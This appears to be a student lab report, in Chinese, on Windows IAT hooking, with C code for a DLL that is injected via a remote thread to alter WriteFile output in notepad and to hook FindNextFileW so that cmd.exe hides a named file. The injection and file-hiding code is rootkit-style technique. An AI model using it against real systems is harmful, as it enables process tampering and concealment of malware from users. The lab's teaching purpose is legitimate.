



# API Hook #
## 实验过程 ##
### hook WriteFile ###
- 使用dumpbin /imports C:/Windows/SysWOW64/notepad.exe
- 编写hook-WriteFile.c，并生成hooklib.dll（由于并不需要导出函数，因此其exp.def仅含有LIBRARY hooklib一条语句）
- 该 DLL 使得其被加载时执行IATHook操作，从而将原WriteFlie函数的地址替换为Fake_WriteFile函数的地址
```
// hook-WriteFile.c
#include<Windows.h>
// 函数定义在 IATHook.c 中
LONG IATHook(
    __in_opt void* pImageBase,
    __in_opt char* pszImportDllName,
    __in char* pszRoutineName,
    __in void* pFakeRoutine,
    __out HANDLE* phHook);
void* GetIATHookOrign(__in HANDLE hHook);
HANDLE g_hHook_WriteFile = NULL;
typedef BOOL(__stdcall * LPFN_WriteFile)(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped);
BOOL __stdcall Fake_WriteFile(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped)
{
    LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
    if (strcmp(lpBuffer, "hahaha") == 0)
        lpBuffer = "hehehe";
    // 调用原始的 WriteFile 函数
    return fnOrigin(hFile, lpBuffer, nNumberOfBytesToWrite, lpNumberOfBytesWritten, lpOverlapped);
}
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved)  // reserved
{
    // Perform actions based on the reason for calling.
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        // Initialize once for each new process.
        IATHook(
            GetModuleHandleW(NULL),
            "kernel32.dll",
            "WriteFile",
            Fake_WriteFile,
            &g_hHook_WriteFile
        );
        // Return FALSE to fail DLL load.
        break;
    }
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```
- 为远程进程创建加载 DLL 的线程
- 注入成功、远程线程结束后，IATHook的效果对当前被注入进程永久有效

### hook FindNextFileW ###
- 使用FindFirstFileW函数和FindNextFileW函数来遍历指定目录，并获得目录下所有文件
- 使用Dependency查看，FindFirstFileW函数和FindNextFileW函数均位于KERNEL32.DLL


- FindFirstFileW函数用于获取目录句柄，遍历目录使用的是FindNextFileW函数，因此只需要钩取FindNextFileW函数
```
HANDLE g_hHook_FindNextFileW = NULL;
typedef BOOL(__stdcall* LPFN_FindNextFileW)(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData);
BOOL WINAPI Fake_FindNextFileW(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData)
{
    LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
    BOOL status = fnOrigin(hFindFile, lpFindFileData);
    if (wcscmp(lpFindFileData->cFileName, L"CreateRemoteThread.exe") == 0)
    // 当遇到文件名为 CreateRemoteThread.exe 的文件，就再获取下一个，这样就越过了
  	  status = fnOrigin(hFindFile, lpFindFileData);
    return status;
}
// 修改 DLLMain 中调用 IATHook 函数的传入参数
IATHook(
  	GetModuleHandleW(NULL),
  	"API-MS-WIN-CORE-FILE-L1-1-0.dll",
  	"FindNextFileW",
  	Fake_FindNextFileW,
  	&g_hHook_FindNextFileW
);
```
- 实验效果展示，可以看到被攻击的cmd.exe使用dir时，无法显示目录下的CreateRemoteThread.exe


## 参考资料 ##
- [WriteFile function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-writefile)
- [FindNextFileW function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-findnextfilew)
- [Listing the Files in a Directory](https://docs.microsoft.com/zh-cn/windows/win32/fileio/listing-the-files-in-a-directory)